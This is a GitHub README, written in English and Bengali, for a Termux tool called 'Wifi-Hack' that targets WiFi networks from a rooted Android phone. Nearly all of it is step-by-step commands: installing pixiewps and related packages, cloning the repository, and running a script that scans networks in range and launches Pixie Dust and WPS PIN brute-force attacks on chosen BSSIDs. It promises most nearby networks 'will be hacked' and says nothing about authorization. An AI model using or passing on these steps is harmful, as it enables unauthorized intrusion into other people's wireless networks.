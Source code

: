 ## Wifi-Hack 🗿
### Hack WIfi Using Termux! (Need Rooted Device )🧑‍💻
### termux দিয়ে wifi হ্যা.ক করুন 

[![Screenshot-20240524-183227-Termux.png](https://i.postimg.cc/qMjPGGTw/Screenshot-20240524-183227-Termux.png)](https://postimg.cc/vcx2YfDx) 

### How to install (কিভাবে ইন্সটল করবেন) :

```bash
apt update && apt upgrade -y
```
```bash
pkg update && pkg upgrade -y
```
```
pkg install git -y
```
```
pkg install python -y
```
```bash
pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && termux-setup-storage
```
```
git clone https://github.com/tanvirhasan999/Wifi-Hack
```
```
cd Wifi-Hack
```
```
chmod +x fück-wifi.py
```
### Note📝 : Now turn off Wifi (এখন wifi অফ করুন)
```
sudo python fück-wifi.py -i wlan0 -K
```
## Note📝: It will show all Wifi within your range. Among them, 99% of Green's will be hacked. And the White ones may also be tried. And the Red ones will not be hacked. (আপনার Range এর ভেতর এর সব Wifi Show করবে। এগুলার ভেতর Green এর গুলা 99% হ্যাক হবে। আর White এর গুলোও হতে পারে চেষ্টা করে দেখবেন।আর যেগুলো Red গুলো হ্যাক হবেনা)

## Enter this command to open Tool next time. (পরের বার Tool অপেন করতে এই command টি দিন।)
```bash
sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note 📝: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
## Thanks For Using My Tool ❤️
